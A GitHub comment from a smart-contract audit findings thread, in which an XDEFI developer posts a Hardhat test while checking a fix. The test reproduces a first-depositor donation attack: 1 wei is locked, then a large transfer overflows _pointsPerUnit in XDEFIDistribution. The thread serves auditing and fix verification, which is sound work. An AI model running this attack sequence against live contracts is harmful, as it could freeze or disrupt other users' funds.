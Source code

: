 
**[deluca-mike (XDEFI) commented](https://github.com/code-423n4/2022-01-xdefi-findings/issues/156#issuecomment-1008266150):**
> OK, I think I can solve this with `_pointsMultiplier = uint256(2**72)`:
> 
> ```js
> const { expect } = require("chai");
> const { ethers } = require("hardhat");
> 
> const totalSupply = '240000000000000000000000000';
> 
> const toWei = (value, add = 0, sub = 0) => (BigInt(value) * 1_000_000_000_000_000_000n + BigInt(add) - BigInt(sub)).toString();
> 
> describe("XDEFIDistribution", () => {
>     it("Can overflow _pointsPerUnit", async () => {
>         const [god, alice, bob] = await ethers.getSigners();
> 
>         const XDEFI = await (await (await ethers.getContractFactory("XDEFI")).deploy("XDEFI", "XDEFI", totalSupply)).deployed();
>         const XDEFIDistribution = await (await (await ethers.getContractFactory("XDEFIDistribution")).deploy(XDEFI.address, "https://www.xdefi.io/nfts/", 0)).deployed();
> 
>         // Give each account 100M XDEFI
>         await (await XDEFI.transfer(alice.address, toWei(100_000_000))).wait();
>         await (await XDEFI.transfer(bob.address, toWei(100_000_000))).wait();
> 
>         // bonusMultiplierOf[30 days] = 255
>         await (await XDEFIDistribution.setLockPeriods([2592000], [255])).wait();
> 
>         // 1. Alice lock() 1 wei of XDEFI for 30 days as the first user of the contract. Got 1 units, and totalUnits now is 1
>         await (await XDEFI.connect(alice).approve(XDEFIDistribution.address, 1)).wait();
>         await (await XDEFIDistribution.connect(alice).lock(1, 2592000, alice.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(alice.address)).to.equal('1');
>         const nft1 = (await XDEFIDistribution.tokenOfOwnerByIndex(alice.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft1)).units).to.equal(2);
> 
>         // 2. Alice sends 100M XDEFI minus 1 wei to the contract and calls updateDistribution()
>         await (await XDEFI.connect(alice).transfer(XDEFIDistribution.address, toWei(100_000_000, 0, 1))).wait();
>         await (await XDEFIDistribution.connect(alice).updateDistribution()).wait();
> 
>         // 3. Bob can lock() 100M XDEFI for 30 days
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(100_000_000))).wait();
>         await (await XDEFIDistribution.connect(bob).lock(toWei(100_000_000), 2592000, bob.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(bob.address)).to.equal('1');
>         const nft2 = (await XDEFIDistribution.tokenOfOwnerByIndex(bob.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft2)).units).to.equal(toWei(255_000_000));
> 
>         // 4. The rewarder sends 40M XDEFI to the contract and calls updateDistribution()
>         await (await XDEFI.transfer(XDEFIDistribution.address, toWei(40_000_000))).wait();
>         await (await XDEFIDistribution.updateDistribution()).wait();
> 
>         // 5. 30 days later, Bob can call unlock()
>         await hre.ethers.provider.send('evm_increaseTime', [2592000]);
>         await (await XDEFIDistribution.connect(bob).unlock(nft2, bob.address)).wait();
>     });
> });
> ```
